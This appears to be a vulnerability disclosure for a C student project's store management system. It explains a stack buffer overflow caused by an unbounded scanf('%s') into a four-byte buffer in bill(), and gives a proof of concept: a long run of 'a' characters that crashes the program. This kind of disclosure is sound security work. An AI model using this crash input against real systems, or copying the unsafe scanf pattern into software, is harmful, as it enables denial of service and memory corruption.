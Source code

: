 # Department Store Management System stack overflow in bill function 



## supplier

[Departmental Store Management System In C Programming With Source Code - Source Code & Projects](https://code-projects.org/departmental-store-management-system-c-programming-source-code/)



## Vulnerability file

Unbounded Stack Buffer Overflow via `scanf("%s",x);` in `bill`



## describe

The `bill()` function contains a **buffer overflow vulnerability** due to unsafe usage of `scanf("%s", x)` with a fixed-size buffer `char x[4]`. This allows an attacker to overwrite adjacent memory, potentially leading to **arbitrary code execution (RCE)** or **denial-of-service (DoS)**.



## **Root Cause Analysis**

- **Fixed-size buffer (`x[4]`)** can only store **3 characters + null terminator**.
- **`scanf("%s", x)` reads unbounded input**, allowing overflow:
  - Inputs longer than 3 chars corrupt the stack.
  - Can overwrite return addresses, enabling **control-flow hijacking**.

![image-20250417103909605](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417103909605.png)



# POC

enter "Calculate Bill"

![image-20250417104425545](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417104425545.png)



enter payload to cause the stack overflow to crash

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```



![image-20250417104123472](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417104123472.png)



then,input again

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```



![image-20250417104211894](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417104211894.png)



result

we can see EXCEPTION_ACCESS_VIOLATION.

![image-20250417104249914](https://raw.githubusercontent.com/zzzxc643/images/main/image/image-20250417104249914.png)